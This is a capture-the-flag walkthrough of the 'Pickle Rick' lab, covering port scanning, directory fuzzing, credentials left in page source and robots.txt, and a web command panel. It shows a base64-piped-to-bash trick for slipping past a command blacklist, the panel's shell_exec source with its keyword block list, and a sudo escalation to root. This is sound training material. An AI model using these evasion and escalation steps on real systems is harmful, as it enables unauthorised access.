

# Pickle Rick



## Initial Enumeration

I use Rustscan to do the initial port enumeration, and found SSH and HTTP are opened

```bash
root@ip-<Attacker-IP>:~#rustscan -a <Target IP> -u 5000 -- -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
.
.
.
Open <Target IP>:22
Open <Target IP>:80
[~] Starting Script(s)
.
.
.

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## HTTP (Port 80)

Upon reaching to port 80, we will see the help message


Is the first hint to use Burp?

I used Curl instead and found a comment that hinted at the username `R1ckRul3s`. Maybe I should really check the source the next time

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

However we do not know the password, which might need to do some web fuzzing

```bash
root@ip-<Attacker-IP>:~#gobuster dir -u http://<Target IP>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     [http://<Target IP>/](http://10.48.191.54/)
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> [http://<Target IP>/assets/](http://10.48.191.54/assets/)]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 277]
Progress: 4655 / 4656 (99.98%)
===============================================================
Finished
===============================================================
```

Go to robots.txt, and we find a weird string `Wubbalubbadubdub` that should not be seen in a normal robots.txt file, which might be a password


## SSH (Port 22)

Is this an SSH credential? We can try it out

```bash
root@ip-<Attacker-IP>:~# ssh R1ckRul3s@<Target IP>
The authenticity of host '<Target IP> (<Target IP>)' can't be established.
ECDSA key fingerprint is SHA256:W0GnVGx8ZCqI2YO+rPWBezZUnX1IrLJRE40ikj137mU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '<Target IP>' (ECDSA) to the list of known hosts.
R1ckRul3s@<Target IP>: Permission denied (publickey).
```

It seems that it rejects our password, maybe only an identification file is allowed

## Login Panel

How about a login panel? We might be unable to fuzz it using a general wordlist, so lets switch to a login-focused wordlist

```bash
root@ip-<Attacker-IP>:~# gobuster dir -u http://<Target IP>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Logins.fuzz.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<Target IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/Logins.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/?page=admin.auth.inc (Status: 200) [Size: 1062]
/?page=auth.inc       (Status: 200) [Size: 1062]
Progress: 86 / 87 (98.85%)
/?page=auth.inc.php   (Status: 200) [Size: 1062]
===============================================================
Finished
===============================================================

```

It seems that we are correct and find `login.php`. We can use the credential `R1ckRul3s:Wubbalubbadubdub` to log in


## Ingredient 1

Once we log in, we will be redirected to the command panel


I tried some simple commands to gather some info:

- `whoami`: www-data (a common low privilege account)
- `pwd`: `var/www/html` (Common in Apache)

Then I use `ls`, and find `Sup3rS3cretPickl3Ingred.txt`

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Cat it of course! But no so simple


It is blocked by the frontend, probably using some blacklist, the backend will still gladly execute the command.

So we need to bypass it. Remember the Burp hint appears before? Maybe it is time. A comment again, ~~I really need to view the source~~


Turn out it is a nested base64 encoded string, definitely worth my time


But this also gives me an idea: what if we base64-encode the entire command?

First, base64 encode `cat Sup3rS3cretPickl3Ingred.txt`, which we get `Y2F0IFN1cDNyUzNjcmV0UGlja2wzSW5ncmVkLnR4dA==`

And then all we need to do is decode the command and pass it to bash. The command will like the following:

```bash
echo Y2F0IFN1cDNyUzNjcmV0UGlja2wzSW5ncmVkLnR4dA==|base64 -d|bash
```

With that, it worked! We find the first ingredient, which is `mr. meeseek hair`

## Other tabs?


At the same time, I am also a bit curious about the other tabs, but they are all `denied.php`.


 I first thought, do I need to alter my request somehow to bypass the check? But I am clueless even after intercepting the requests

## Ingredient 2

continue to explore, we will find that there is a file called `second ingredients` under `/home/rick`.

Theorically, the second ingredients should be done with the same method, which the full command will be:

```html
echo Y2F0IC9ob21lL3JpY2svc2Vjb25kXCBpbmdyZWRpZW50cw==|base64 -d|bash
```

However, because we know base64 is allowed, why don’t we check the PHP files to know more about how this web works? we can base64 encode the file, and then decode it

### Denined.php

Using `base64 denied.php`, we can obtain a large chunk of base64 string

```
PD9waHAKc2Vzc2lvbl9zdGFydCgpOwppZigkX1NFU1NJT05bImxvZ2luIl0gPT0gZmFsc2UpIHsK
ICAgaGVhZGVyKCJMb2NhdGlvbjogL2xvZ2luLnBocCIpOyBkaWUoKTsKfQo/Pgo8IURPQ1RZUEUg
aHRtbD4KPGh0bWwgbGFuZz0iZW4iPgo8aGVhZD4KICA8dGl0bGU+UmljayBpcyBzdXA0ciBjb29s
PC90aXRsZT4KICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgPG1ldGEgbmFtZT0idmlld3BvcnQi
IGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xIj4KICA8bGluayBy
ZWw9InN0eWxlc2hlZXQiIGhyZWY9ImFzc2V0cy9ib290c3RyYXAubWluLmNzcyI+CiAgPHNjcmlw
dCBzcmM9ImFzc2V0cy9qcXVlcnkubWluLmpzIj48L3NjcmlwdD4KICA8c2NyaXB0IHNyYz0iYXNz
ZXRzL2Jvb3RzdHJhcC5taW4uanMiPjwvc2NyaXB0Pgo8L2hlYWQ+Cjxib2R5PgogIDxuYXYgY2xh
c3M9Im5hdmJhciBuYXZiYXItaW52ZXJzZSI+CiAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgog
ICAgICA8ZGl2IGNsYXNzPSJuYXZiYXItaGVhZGVyIj4KICAgICAgICA8YSBjbGFzcz0ibmF2YmFy
LWJyYW5kIiBocmVmPSIvcG9ydGFsLnBocCI+UmljayBQb3J0YWw8L2E+CiAgICAgIDwvZGl2Pgog
ICAgICA8dWwgY2xhc3M9Im5hdiBuYXZiYXItbmF2Ij4KICAgICAgICA8bGk+PGEgaHJlZj0iL3Bv
cnRhbC5waHAiPkNvbW1hbmRzPC9hPjwvbGk+CiAgICAgICAgPGxpPjxhIGhyZWY9Ii9kZW5pZWQu
cGhwIj5Qb3Rpb25zPC9hPjwvbGk+CiAgICAgICAgPGxpPjxhIGhyZWY9Ii9kZW5pZWQucGhwIj5D
cmVhdHVyZXM8L2E+PC9saT4KICAgICAgICA8bGk+PGEgaHJlZj0iL2RlbmllZC5waHAiPlBvdGlv
bnM8L2E+PC9saT4KICAgICAgICA8bGk+PGEgaHJlZj0iL2RlbmllZC5waHAiPkJldGggQ2xvbmUg
Tm90ZXM8L2E+PC9saT4KICAgICAgPC91bD4KICAgIDwvZGl2PgogIDwvbmF2PgoKICA8ZGl2IGNs
YXNzPSJjb250YWluZXIiPgogICAgT25seSB0aGUgPGI+UkVBTDwvYj4gcmljayBjYW4gdmlldyB0
aGlzIHBhZ2UuLjwvYnI+PC9icj48aW1nIHNyYz0iYXNzZXRzL3BpY2tsZXJpY2suZ2lmIj4KICA8
L2Rpdj4KPC9ib2R5Pgo8L2h0bWw+Cg==

```

Decode it and we found nothing special

```php
<?php
session_start();
if($_SESSION["login"] == false) {
   header("Location: /login.php"); die();
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
</head>
<body>
  <nav class="navbar navbar-inverse">
    <div class="container">
      <div class="navbar-header">
        <a class="navbar-brand" href="/portal.php">Rick Portal</a>
      </div>
      <ul class="nav navbar-nav">
        <li><a href="/portal.php">Commands</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Creatures</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Beth Clone Notes</a></li>
      </ul>
    </div>
  </nav>

  <div class="container">
    Only the <b>REAL</b> rick can view this page..</br></br>
  </div>
</body>
</html>
```

### Portal.php

How about `portal.php`? Run `base64 portal.php`

```
PD9waHAKc2Vzc2lvbl9zdGFydCgpOwoKaWYoJF9TRVNTSU9OWyJsb2dpbiJdID09IGZhbHNlKSB7
CiAgIGhlYWRlcigiTG9jYXRpb246IC9sb2dpbi5waHAiKTsgZGllKCk7Cn0KCj8+CjwhRE9DVFlQ
RSBodG1sPgo8aHRtbCBsYW5nPSJlbiI+CjxoZWFkPgogIDx0aXRsZT5SaWNrIGlzIHN1cDRyIGNv
b2w8L3RpdGxlPgogIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICA8bWV0YSBuYW1lPSJ2aWV3cG9y
dCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEiPgogIDxsaW5r
IHJlbD0ic3R5bGVzaGVldCIgaHJlZj0iYXNzZXRzL2Jvb3RzdHJhcC5taW4uY3NzIj4KICA8c2Ny
aXB0IHNyYz0iYXNzZXRzL2pxdWVyeS5taW4uanMiPjwvc2NyaXB0PgogIDxzY3JpcHQgc3JjPSJh
c3NldHMvYm9vdHN0cmFwLm1pbi5qcyI+PC9zY3JpcHQ+CjwvaGVhZD4KPGJvZHk+CiAgPG5hdiBj
bGFzcz0ibmF2YmFyIG5hdmJhci1pbnZlcnNlIj4KICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+
CiAgICAgIDxkaXYgY2xhc3M9Im5hdmJhci1oZWFkZXIiPgogICAgICAgIDxhIGNsYXNzPSJuYXZi
YXItYnJhbmQiIGhyZWY9IiMiPlJpY2sgUG9ydGFsPC9hPgogICAgICA8L2Rpdj4KICAgICAgPHVs
IGNsYXNzPSJuYXYgbmF2YmFyLW5hdiI+CiAgICAgICAgPGxpIGNsYXNzPSJhY3RpdmUiPjxhIGhy
ZWY9IiMiPkNvbW1hbmRzPC9hPjwvbGk+CiAgICAgICAgPGxpPjxhIGhyZWY9Ii9kZW5pZWQucGhw
Ij5Qb3Rpb25zPC9hPjwvbGk+CiAgICAgICAgPGxpPjxhIGhyZWY9Ii9kZW5pZWQucGhwIj5DcmVh
dHVyZXM8L2E+PC9saT4KICAgICAgICA8bGk+PGEgaHJlZj0iL2RlbmllZC5waHAiPlBvdGlvbnM8
L2E+PC9saT4KICAgICAgICA8bGk+PGEgaHJlZj0iL2RlbmllZC5waHAiPkJldGggQ2xvbmUgTm90
ZXM8L2E+PC9saT4KICAgICAgPC91bD4KICAgIDwvZGl2PgogIDwvbmF2PgoKICA8ZGl2IGNsYXNz
PSJjb250YWluZXIiPgogICAgPGZvcm0gbmFtZT0iaW5wdXQiIGFjdGlvbj0iIiBtZXRob2Q9InBv
c3QiPgogICAgICA8aDM+Q29tbWFuZCBQYW5lbDwvaDM+PC9icj4KICAgICAgPGlucHV0IHR5cGU9
InRleHQiIGNsYXNzPSJmb3JtLWNvbnRyb2wiIG5hbWU9ImNvbW1hbmQiIHBsYWNlaG9sZGVyPSJD
b21tYW5kcyIvPjwvYnI+CiAgICAgIDxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJFeGVjdXRl
IiBjbGFzcz0iYnRuIGJ0bi1zdWNjZXNzIiBuYW1lPSJzdWIiLz4KICAgIDwvZm9ybT4KICAgIDw/
cGhwCiAgICAgIGZ1bmN0aW9uIGNvbnRhaW5zKCRzdHIsIGFycmF5ICRhcnIpCiAgICAgIHsKICAg
ICAgICAgIGZvcmVhY2goJGFyciBhcyAkYSkgewogICAgICAgICAgICAgIGlmIChzdHJpcG9zKCRz
dHIsJGEpICE9PSBmYWxzZSkgcmV0dXJuIHRydWU7CiAgICAgICAgICB9CiAgICAgICAgICByZXR1
cm4gZmFsc2U7CiAgICAgIH0KICAgICAgLy8gQ2FudCB1c2UgY2F0CiAgICAgICRjbWRzID0gYXJy
YXkoImNhdCIsICJoZWFkIiwgIm1vcmUiLCAidGFpbCIsICJuYW5vIiwgInZpbSIsICJ2aSIpOwog
ICAgICBpZihpc3NldCgkX1BPU1RbImNvbW1hbmQiXSkpIHsKICAgICAgICBpZihjb250YWlucygk
X1BPU1RbImNvbW1hbmQiXSwgJGNtZHMpKSB7CiAgICAgICAgICBlY2hvICI8L2JyPjxwPjx1PkNv
bW1hbmQgZGlzYWJsZWQ8L3U+IHRvIG1ha2UgaXQgaGFyZCBmb3IgZnV0dXJlIDxiPlBJQ0tMRUVF
RSBSSUNDQ0tLS0s8L2I+LjwvcD48aW1nIHNyYz0nYXNzZXRzL2ZhaWwuZ2lmJz4iOwogICAgICAg
IH0gZWxzZSB7CiAgICAgICAgICAkb3V0cHV0ID0gc2hlbGxfZXhlYygkX1BPU1RbImNvbW1hbmQi
XSk7CiAgICAgICAgICBlY2hvICI8L2JyPjxwcmU+JG91dHB1dDwvcHJlPiI7CiAgICAgICAgfQog
ICAgICB9CgogICAgPz4KICAgIDwhLS0gVm0xd1IxVXhUblJXYTJSVVYwZDRWRmxyWkZOalJsVjNW
MnQwYWxKc1dubFdiWFF3VmtVeFYxZHVhRlpOYWtFeFZrY3hTMU5IVmtsaVJtaG9UVmhDYjFac1dt
RldNVnBXVFZWV2FHVnFRVDA9PSAtLT4KICA8L2Rpdj4KPC9ib2R5Pgo8L2h0bWw+Cg==

```

This is where the black list lies, so we cannot use `cat`, `head`, `more`, `tail`, `nano`, `vim` and `vi`

```php
<?php
session_start();

if($_SESSION["login"] == false) {
   header("Location: /login.php"); die();
}

?>
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
</head>
<body>
  <nav class="navbar navbar-inverse">
    <div class="container">
      <div class="navbar-header">
        <a class="navbar-brand" href="#">Rick Portal</a>
      </div>
      <ul class="nav navbar-nav">
        <li class="active"><a href="#">Commands</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Creatures</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Beth Clone Notes</a></li>
      </ul>
    </div>
  </nav>

  <div class="container">
    <form name="input" action="" method="post">
      <h3>Command Panel</h3></br>
      <input type="text" class="form-control" name="command" placeholder="Commands"/></br>
      <input type="submit" value="Execute" class="btn btn-success" name="sub"/>
    </form>
    <?php
      function contains($str, array $arr)
      {
          foreach($arr as $a) {
              if (stripos($str,$a) !== false) return true;
          }
          return false;
      }
      // Cant use cat
      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }

    ?>
    <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
  </div>
</body>
</html>
```

With this, we can comfortably use less to do the job 

```bash
less /home/rick/second\ ingredients
```

And we get the second ingredient

```
1 jerry tear
```

## Third ingredient

I tried to use `find` to locate the file but failed, and then I realized, I never check what privileges I have…

```bash
Matching Defaults entries for www-data on ip-10-48-191-54:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-48-191-54:
    (ALL) NOPASSWD: ALL
```

www-data have all sudo privileges? then everything is  easy now, we can check the `/root directory` using `sudo ls /root`

```bash
3rd.txt
snap
```

Finally get the final ingredient using `sudo less /root/3rd.txt`

```
3rd ingredients: fleeb juice
```
